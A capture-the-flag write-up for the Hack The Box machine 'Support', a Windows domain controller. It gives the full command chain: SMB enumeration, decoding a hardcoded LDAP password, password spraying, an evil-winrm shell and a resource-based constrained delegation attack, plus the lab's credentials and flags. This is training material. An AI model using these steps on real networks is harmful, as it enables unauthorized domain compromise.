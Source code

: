 # 🧑‍💻 Hack The Box – Support

## 📌 Overview
- **Machine Name:** Support
- **IP Address(es):** 10.10.11.174
- **Difficulty:** Easy
- **OS:** Windows
- **Tags:** SMB / Active Directory / LDAP / Reverse Engineering / RBCD
- **Date Completed:** 2025.08.29
- **Status:** ✅ User | ✅ Root

---

## 🖥️ Initial Recon
### Nmap
```zsh
nmap -sC -sV -oA nmap/support 10.10.11.174
```

```
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-29 08:08:44Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

**Findings:**
- 389/tcp → LDAP
- 139/tcp → SMB (guest access enabled)

### SMB Enumeration
```bash
nxc smb support.htb -u 'a' -p '' --shares
```
```
support-tools   READ
```
```bash
smbclient //support.htb/support-tools -U 'Guest'
```
```
UserInfo.exe.zip
```
* Found a readable share containing **UserInfo.exe**.

---

## 🔍 Reverse Engineering UserInfo.exe
Decompilation revealed LDAP credentials:
```csharp
public LdapQuery()
{
    string password = Protected.getPassword();
    this.entry = new DirectoryEntry("LDAP://support.htb", "support\ldap", password);
    this.entry.AuthenticationType = AuthenticationTypes.Secure;
    this.ds = new DirectorySearcher(this.entry);
}
```
The password was obfuscated:
```csharp
private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
private static byte[] key = Encoding.ASCII.GetBytes("armando");
```
### Decoding
```py
import base64
enc = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"
cipher = base64.b64decode(enc)
plain = bytes([c ^ key[i % len(key)] ^ 223 for i, c in enumerate(cipher)])
print(plain.decode())
```
Decoded password:
```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```
### Credential Validation
```zsh
nxc ldap support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```
```
[+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```
* Valid domain credentials obtained.

---

## 🧭 BloodHound
Collected domain data:
```zsh
rusthound-ce -d support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -o bloodhound --ldap-filter='(objectGuid=*)' -c All
```
* Nothing interesting for `ldap` user.

---

## 🗂️ LDAP Enumeration
Custom LDAP enumeration revealed a suspicious `info` field:
```json
"ford.victoria": {
  "info": "Ironside47pleasure40Watchful"
}
```
- Appeared to be credentials for `ford.victoria`, but login attempts failed.
- Enumerated all domain users and built a wordlist.

---

## 🔑 Exploitation – Foothold
Brute-forcing with discovered password:
```zsh
nxc smb support.htb -u usernames.txt -p 'Ironside47pleasure40Watchful' --continue-on-success
```
```
[+] support.htb\support:Ironside47pleasure40Watchful
```
### Shell Access
```zsh
evil-winrm -i support.htb -u 'support' -p 'Ironside47pleasure40Watchful'
```
```
*Evil-WinRM* PS C:\Users\support\Desktop> type user.txt
c2ee84b4277d7cab7ea5ae7d9bc1d5bc
```
* ✅ User shell obtained.

---

## 🚀 Privilege Escalation
### BloodHound Relationships
- `support` user → member of **SHARED SUPPORT ACCOUNTS** group.  
- This group has **GenericAll** rights on `DC.SUPPORT.HTB` computer object.  
- Meaning: *Support → has **GenericAll** on DC computer*.  

### Exploit: Resource-Based Constrained Delegation (RBCD)
1. Add attacker-controlled computer:
```zsh
impacket-addcomputer -method SAMR -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host DC.support.htb -domain-netbios support.htb 'support.htb/support:Ironside47pleasure40Watchful'
```
2. Configure delegation:
```zsh
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'DC$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
```
3. Request TGT as Administrator:
```zsh
getST.py -spn cifs/DC.support.htb -impersonate Administrator support.htb/ATTACKERSYSTEM$:'Summer2018!' -dc-ip DC.support.htb
```
4. Pass-the-ticket with PsExec:
```zsh
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass support.htb/Administrator@DC.support.htb
```
```
C:\Users\Administrator\Desktop> type root.txt
ae1605fecb42f57a3d34817e12d24252
```
* ✅ SYSTEM access (Domain Admin).

---

## 🏁 Flags
- **User.txt:** `c2ee84b4277d7cab7ea5ae7d9bc1d5bc`  
- **Root.txt:** `ae1605fecb42f57a3d34817e12d24252`

---

## 🧠 Lessons Learned
**Technical:**
- Reverse engineering revealed hardcoded service account credentials.  
- LDAP info fields may leak sensitive data.  
- RBCD is a powerful AD privilege escalation vector.  

**Personal:**
- Always test leaked creds against multiple accounts.  
- Automating LDAP parsing speeds up discovery of hidden values.  

**Reusable Techniques:**
- Decode obfuscation (base64 + XOR).  
- Use BloodHound to map AD misconfigurations.  
- Exploit RBCD when `GenericAll` is granted on DC computer objects.  
